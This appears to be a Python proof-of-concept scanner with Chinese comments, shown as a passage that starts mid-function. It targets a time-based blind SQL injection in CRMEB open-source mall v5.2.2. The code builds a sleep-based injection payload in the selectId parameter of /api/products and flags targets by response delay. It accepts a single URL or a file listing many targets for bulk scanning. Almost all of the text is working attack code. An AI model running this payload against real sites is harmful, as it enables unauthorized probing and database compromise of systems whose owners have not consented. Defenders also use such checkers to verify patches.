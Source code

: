 ```bash
        attack_url = url.rstrip('/') + "/api/products?limit=20&priceOrder=&salesOrder=&selectId=GTID_SUBSET(CONCAT(0x7e,(SELECT+(ELT(3550=3550,sleep(3)))),0x7e),3550)+"
 
        # 记录请求开始时间
        start_time = time.time()
 
        # 发送GET请求到攻击URL，不验证SSL证书，设置超时时间
        response = requests.get(attack_url, verify=False, timeout=10)
        # 计算请求完成所需的时间
        elapsed_time = time.time() - start_time
 
        # 如果请求时间在3到8秒之间，且状态码为200，认为存在漏洞
        if 3 < elapsed_time < 8 and response.status_code == 200:
            print(f"{RED}URL [{url}] 可能存在CRMEB开源商城v5.2.2 sql注入漏洞{RESET}")
        else:
            print(f"URL [{url}] 不存在漏洞")
    # 捕获请求超时异常
    except requests.exceptions.Timeout:
        print(f"URL [{url}] 请求超时，可能存在漏洞")
    # 捕获其他请求异常
    except requests.RequestException as e:
        print(f"URL [{url}] 请求失败: {e}")
 
# 主函数，解析命令行参数并执行检测
def main():
    # 创建参数解析器，用于解析命令行输入
    parser = argparse.ArgumentParser(description='检测目标地址是否存在CRMEB开源商城v5.2.2 sql注入漏洞')
    parser.add_argument('-u', '--url', help='指定目标地址')
    parser.add_argument('-f', '--file', help='指定包含目标地址的文本文件')
 
    # 解析命令行参数
    args = parser.parse_args()
 
    # 如果提供了URL参数，检查该URL
    if args.url:
        if not args.url.startswith("http://") and not args.url.startswith("https://"):
            args.url = "http://" + args.url
        check_vulnerability(args.url)
    # 如果提供了文件参数，逐行检查文件中的URL
    elif args.file:
        with open(args.file, 'r') as file:
            urls = file.read().splitlines()
            for url in urls:
                if not url.startswith("http://") and not url.startswith("https://"):
                    url = "http://" + url
                check_vulnerability(url)
 
# 程序入口点
if __name__ == '__main__':
    main()
 
```
